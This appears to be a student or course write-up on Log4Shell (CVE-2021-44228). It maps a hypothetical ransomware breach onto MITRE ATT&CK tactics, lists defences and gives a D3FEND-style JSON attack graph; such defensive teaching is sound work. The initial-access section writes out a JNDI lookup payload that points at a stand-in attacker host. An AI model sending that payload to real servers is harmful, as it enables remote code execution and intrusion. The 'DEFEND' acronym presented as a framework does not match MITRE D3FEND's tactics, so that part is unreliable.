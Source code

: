# Log4Shell Exploits and Breach

## Breach Scenario Recap
In December 2021, the Log4Shell vulnerability (CVE-2021-44228) was disclosed in the Apache Log4j library, a critical component in countless Java-based applications. This flaw enabled attackers to achieve remote code execution (RCE) by injecting malicious payloads into log messages, exploiting the Java Naming and Directory Interface (JNDI). The breach potential was immense due to Log4j’s widespread use across enterprise systems, cloud platforms, and web services. Attackers rapidly exploited this vulnerability to infiltrate networks, escalate privileges, and exfiltrate sensitive data, leading to significant breaches worldwide. One hypothetical breach scenario involves a corporate web application where an attacker uses Log4Shell to deploy ransomware, disrupting operations and compromising customer data.

---

## MITRE ATT&CK Framework: Mapping the Log4Shell Breach
The Log4Shell exploit aligns with a sophisticated attack chain in the MITRE ATT&CK for Enterprise framework. Below is a breakdown of how it manifests in a breach scenario:

### Initial Access (TA0001): Exploit Public-Facing Application (T1190)
- **How it Manifested**: The attacker crafts a malicious HTTP request (e.g., via the User-Agent header) containing a JNDI lookup string, such as `${jndi:ldap://malicious.com/a}`, which is logged by a vulnerable Log4j instance.
- **Significance**: This grants the attacker entry into the web application, exploiting its public-facing nature.

### Execution (TA0002): Command and Scripting Interpreter (T1059)
- **How it Manifested**: The JNDI lookup triggers the download and execution of a malicious script or binary, enabling the attacker to run commands on the server.
- **Significance**: This establishes an initial foothold for further malicious actions.

### Persistence (TA0003): Server Software Component (T1505)
- **How it Manifested**: The attacker deploys a web shell or modifies server configurations to ensure continued access post-exploitation.
- **Significance**: Persistence allows the attacker to maintain control even after system restarts or patching attempts.

### Privilege Escalation (TA0004): Exploitation for Privilege Escalation (T1068)
- **How it Manifested**: Leveraging the application’s privileges or exploiting local vulnerabilities, the attacker gains elevated access (e.g., root or SYSTEM).
- **Significance**: Higher privileges unlock deeper system and network access.

### Defense Evasion (TA0005): Obfuscated Files or Information (T1027)
- **How it Manifested**: The attacker encodes payloads and uses encrypted channels to mask their activities from detection tools.
- **Significance**: Evasion prolongs the breach by avoiding security alerts.

### Lateral Movement (TA0008): Remote Services (T1021)
- **How it Manifested**: Using stolen credentials or exploiting trust relationships, the attacker moves to other servers, such as a database or file server.
- **Significance**: This expands the breach scope, targeting sensitive assets.

### Collection (TA0009): Data from Local System (T1005)
- **How it Manifested**: The attacker extracts customer records, credentials, or intellectual property from compromised systems.
- **Significance**: Collected data becomes the breach’s primary payload.

### Command and Control (TA0011): Application Layer Protocol (T1071)
- **How it Manifested**: The attacker establishes a C2 channel over HTTPS to manage the breach and coordinate actions.
- **Significance**: This ensures ongoing communication with compromised systems.

### Exfiltration (TA0010): Exfiltration Over C2 Channel (T1041)
- **How it Manifested**: Sensitive data is compressed, encrypted, and sent to the attacker’s server via the C2 channel.
- **Significance**: Exfiltration marks the breach’s success, delivering stolen assets to the attacker.

### Impact (TA0040): Data Encrypted for Impact (T1486)
- **How it Manifested**: The attacker deploys ransomware, encrypting critical files and demanding payment for decryption keys.
- **Significance**: This disrupts operations, amplifying the breach’s financial and reputational damage.

---

## Proactive Defense: Applying "DEFEND" Principles to Mitigate the Breach
The "DEFEND" model—Deter, Evade, Fortify, Endure, Neutralize, Deceive—offers a structured approach to prevent and mitigate a Log4Shell breach:

### Deter
- **Application**: Public warnings and legal threats may discourage opportunistic attackers.
- **Limitation**: Sophisticated actors remain undeterred by such measures.

### Evade
- **Application**: Not applicable in this defensive context.

### Fortify
- **Application**: Strengthening systems is key to preventing exploitation:
  - **Patching**: Update Log4j to a secure version (e.g., 2.17.0+).
  - **WAF**: Deploy a Web Application Firewall with rules to block JNDI exploit attempts.
  - **Input Sanitization**: Filter and validate all user inputs to prevent malicious log entries.
  - **Least Privilege**: Restrict application permissions to minimize damage potential.
- **Significance**: Fortification stops the breach at its entry point.

### Endure
- **Application**: Implement network segmentation to isolate critical systems and limit lateral movement.
- **Significance**: Containment ensures operational continuity despite a breach.

### Neutralize
- **Application**: Use IDS/IPS and EDR solutions to detect and halt exploit attempts or ransomware deployment.
- **Significance**: Rapid neutralization reduces breach duration and impact.

### Deceive
- **Application**: Deploy decoy Log4j instances (honeypots) to detect and mislead attackers.
- **Significance**: Deception provides early warning and diverts attacker focus.

---

## Relating to Security Controls
Effective breach mitigation combines preventive and containment strategies:
- **Defense in Depth (DiD)**: Patching and WAFs block exploits, while IDS/IPS detect breaches.
- **Zero Trust Architecture (ZTA)**: Least privilege and segmentation limit breach expansion.

---

---

## MITRE DEFEND CAD JSON for Log4Shell Breach

Below is a JSON representation of the Log4Shell breach scenario, including attack techniques and countermeasures.

```json
{
  "meta": {
    "title": "SEAS 8405 Log4Shell Breach CAD Model",
    "authors": ["Dr. Mallarapu"],
    "orgs": ["8405 Cyber Defense Team"],
    "description": "CAD model for Log4Shell breach scenario",
    "d3fend_version": "1.0.0",
    "cad_schema_version": 1,
    "published_date": "2025-05-18T09:00:00.000Z",
    "references": ["https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228"]
  },
  "nodes": [
    {"id": "attacker", "type": "agent-node", "position": {"x": 100, "y": 100}, "data": {"label": "Attacker"}},
    {"id": "app", "type": "artifact-node", "position": {"x": 300, "y": 100}, "data": {"label": "Vulnerable App", "d3f_class": "d3f:Application"}},
    {"id": "exploit", "type": "attack-node", "position": {"x": 500, "y": 100}, "data": {"label": "Exploit App", "d3f_class": "d3f:T1190"}},
    {"id": "execution", "type": "attack-node", "position": {"x": 700, "y": 100}, "data": {"label": "Command Execution", "d3f_class": "d3f:T1059"}},
    {"id": "ransomware", "type": "attack-node", "position": {"x": 900, "y": 100}, "data": {"label": "Ransomware", "d3f_class": "d3f:T1486"}},
    {"id": "patch", "type": "countermeasure-node", "position": {"x": 300, "y": 200}, "data": {"label": "Patching", "d3f_class": "d3f:PatchManagement"}},
    {"id": "waf", "type": "countermeasure-node", "position": {"x": 500, "y": 200}, "data": {"label": "WAF", "d3f_class": "d3f:WebApplicationFirewall"}},
    {"id": "segmentation", "type": "countermeasure-node", "position": {"x": 900, "y": 200}, "data": {"label": "Segmentation", "d3f_class": "d3f:NetworkSegmentation"}}
  ],
  "edges": [
    {"source": "attacker", "target": "exploit", "data": {"label": "initiates"}},
    {"source": "exploit", "target": "app", "data": {"label": "exploits"}},
    {"source": "exploit", "target": "execution", "data": {"label": "leads-to"}},
    {"source": "execution", "target": "ransomware", "data": {"label": "deploys"}},
    {"source": "patch", "target": "exploit", "data": {"label": "mitigates"}},
    {"source": "waf", "target": "exploit", "data": {"label": "blocks"}},
    {"source": "segmentation", "target": "ransomware", "data": {"label": "limits"}}
  ]
}
```
